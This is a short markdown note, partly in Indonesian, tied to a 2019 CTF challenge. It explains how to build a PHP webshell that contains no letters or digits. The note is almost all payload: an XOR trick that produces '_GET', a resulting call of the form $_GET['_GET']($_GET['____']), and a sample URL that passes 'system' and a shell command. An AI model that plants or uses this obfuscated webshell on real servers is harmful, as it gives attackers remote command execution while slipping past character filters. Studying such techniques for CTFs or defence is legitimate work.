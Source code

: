 # Webshell Without Alphanumeric
PHP without alphanumeric construction Webshell

```
$_="`{{{"^"?<>/"; adalah $_="_GET"
${$_}[$_] adalah $_GET['_GET']
(${$_}[_._._._]) adalah $_GET['____']
```
Simple nya akan menjadi `<?php $_GET['_GET']( $_GET['____']);`

https://site.com/shell.php?_GET=system&____=command

# Refrensi 
1. Soal CTF cyberjawara 2019
2. http://programmersought.com/article/7881105401/
3. https://github.com/RevID-CTF/CTF/blob/master/CJ_R.O.P.pdf
